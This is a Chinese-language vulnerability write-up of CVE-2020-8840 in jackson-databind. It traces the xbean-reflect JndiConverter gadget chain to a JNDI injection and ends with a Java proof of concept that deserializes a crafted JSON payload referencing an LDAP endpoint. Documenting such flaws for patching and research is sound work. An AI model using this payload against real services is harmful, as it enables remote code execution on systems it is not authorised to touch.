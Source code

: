 （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞
============================================================

一、漏洞简介
------------

`FFasterXML/jackson-databind`是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发JNDI远程类加载从而达到远程代码执行。

二、漏洞影响
------------

-   jackson-databind 2.0.0 -- 2.9.10.2

-   经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson
    v1.2.62版本

三、复现过程
------------

可以在git提交记录中清楚看到利用的具体类

![](./.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId24.png)

分析下利用链，通过传进参数`asText`，触发setter，`setAsText()`函数

![](./.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId25.png)

随后跟进`toObject()`函数

![](./.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId26.png)

最终进到`JndiConverter`重写的`toObjectImp()`函数

![](./.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId27.png)

此时出现经典的JNDI注入，text
刚好就是我们传进的asText，我们可控，从而达到命令执行目的

![](./.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId28.png)

### poc

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
        public static void main(String args[]) {
            ObjectMapper mapper = new ObjectMapper();

            mapper.enableDefaultTyping();

            String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

            try {
                mapper.readValue(json, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }

        }
    }
